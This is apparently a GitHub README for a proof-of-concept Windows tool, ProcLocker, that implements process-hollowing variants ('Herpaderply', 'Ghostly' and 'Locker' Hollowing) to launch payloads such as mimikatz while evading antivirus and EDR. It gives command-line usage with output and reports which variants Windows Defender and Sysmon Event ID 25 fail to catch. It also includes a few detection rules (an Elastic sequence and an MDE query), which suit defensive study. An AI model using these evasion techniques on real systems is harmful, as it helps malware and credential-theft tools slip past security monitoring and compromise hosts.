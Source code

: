 # Herpaderply Hollowing | Ghostly Hollowing | Locker Hollowing
This is just a PoC script of Herpaderply Hollowing, Ghostly Hollowing and Locker Hollowing. See how to encrypt payload and self inject in [PELoader](https://github.com/Hagrid29/PELoader).

Process Locker is my version of variation of Process Herpaderping. Instead of overwriting the payload just after the execution, Process Locker duplicate the file handle of payload to a running process in order to "lock" the file. The "locked" payload usually not examined by AV/EDR.


Credits: most of my work was based on @hasherezade's [PoC](https://github.com/hasherezade/transacted_hollowing).

## Characteristics of each hollowing 

- Payload mapped as `MEM_IMAGE`
- Sections mapped with original access rights (no `RWX`)
- Payload connected to PEB as the main module

### Herpaderply Hollowing

Herpaderply Hollowing is a hybrid between Process Hollowing and [Process Herpaderping](https://jxy-s.github.io/herpaderping/)

![HerpaderplyHollowing](img/HerpaderplyHollowing.png)

Process Herpaderping

```
cmd> .\ProcLocker.exe herpaderp process callback.exe 
```

Herpaderply Hollowing

```
cmd> .\ProcLocker.exe herpaderp hollow callback.exe 
[+] Created temp file: C:\Users\XXX\AppData\Local\Temp\TH1F9C.tmp
[+] Written!
[+] Overwriting file content
[+] Created Process PID: 21812
[+] Resuming PID 21812
[+] Done!
```



Windows Defender detect Process Herpaderping while failed to detect Herpaderply Hollowing

Elastic suggest to identify process execution followed by a file overwrite of an executable by the same parent process. [ref](https://www.elastic.co/guide/en/security/current/potential-process-herpaderping-attempt.html)

```
sequence with maxspan=5s [process where event.type == "start" and
not process.parent.executable :
"C:\\Windows\\SoftwareDistribution\\*.exe"] by host.id,
process.executable, process.parent.entity_id [file where event.type
== "change" and event.action == "overwrite" and file.extension ==
"exe"] by host.id, file.path, process.entity_id
```



### Ghostly Hollowing

[Ghostly Hollowing](https://github.com/hasherezade/transacted_hollowing#ghostly-hollowing) is a hybrid between Process Hollowing and Process Ghosting

![GhostlyHollowing](img/GhostlyHollowing.png)

Process Ghosting

```
cmd> .\ProcLocker.exe ghost process mimikatz.exe
```

Ghostly Hollowing

```
cmd> .\ProcLocker.exe ghost hollow callback.exe
```



Windows Defender failed to detect Process Ghosting and Ghostly Hollowing.

The program map the payload from a delete pending file. It could be an indicator of process ghosting or ghostly hollowing. I wrote a MDE rule for example below.

```
DeviceImageLoadEvents
| where TimeStamp >= ago(1h)
| where SHA1 == ""
```



### Locker Hollowing

Locker Hollowing is a hybrid between Process Hollowing and Process Lockering.

![LockerHollowing](img/LockerHollowing.png)

Process Lockering

```
cmd> .\ProcLocker.exe locker process mimikatz.exe 19408 auto
[+] Created temp file: C:\Users\xxx\AppData\Local\Temp\TH82F6.tmp
[+] Written!
[+] Duplicating file handle to 19408
[+] File locked 
[+] Process created! Pid = 11976
[+] Done!
```

Locker Hollowing

```
cmd> .\ProcLocker.exe locker hollow callback.exe 19408 auto
```

Or we can split the step into: 
1. "lock" the payload by duplicating file handle to a running process. 
2. map the payload from the "locked" file and execute it. 
3. clean up the "locked" payload.

```
cmd> .\ProcLocker.exe lock mimikatz.exe 19408
[+] Created temp file: C:\Users\xxx\AppData\Local\Temp\TH1827.tmp
[+] Written!
[+] Duplicating file handle to 19408
[+] File locked

cmd> .\ProcLocker.exe locker process TH1827.tmp 19408 exec
[+] Getting system handle list
[+] Found remote file handle of "\Users\xxx\AppData\Local\Temp\TH1827.tmp"
[+] Duplicating file handle to current process
[+] Process created! Pid = 12080
[+] Done!

cmd> .\ProcLocker.exe clear TH1827.tmp 19408 
[+] Getting system handle list
[+] Found remote file handle of "\Users\xxx\AppData\Local\Temp\TH1827.tmp"
[+] Duplicating file handle to current process
[+] Releasing the file handle. You can manually remove the file
[+] Overwriting file content
```



Windows Defender detect Process Lockering while failed to detect Locker Hollowing.

The program map the payload from a "locked" file. It could be an indicator of process Lockering.



### Sysmon Event ID 25

Sysmon Event ID 25 triggers "when the mapped image of a process doesn't match the on-disk image file, or the image file is locked for exclusive access."

It would be logged for process herpaderping, process ghosting and process lockering. However, it would not be logged for Herpaderply Hollowing, Ghostly Hollowing or Locker Hollowing.

![detection-of-process-lockering](img/detection-of-process-lockering.png)

![detection-of-process-ghosting](img/detection-of-process-ghosting.png)



## References

* https://jxy-s.github.io/herpaderping/
* https://github.com/hasherezade/transacted_hollowing
* https://www.x86matthew.com/view_post?id=hijack_file_handle



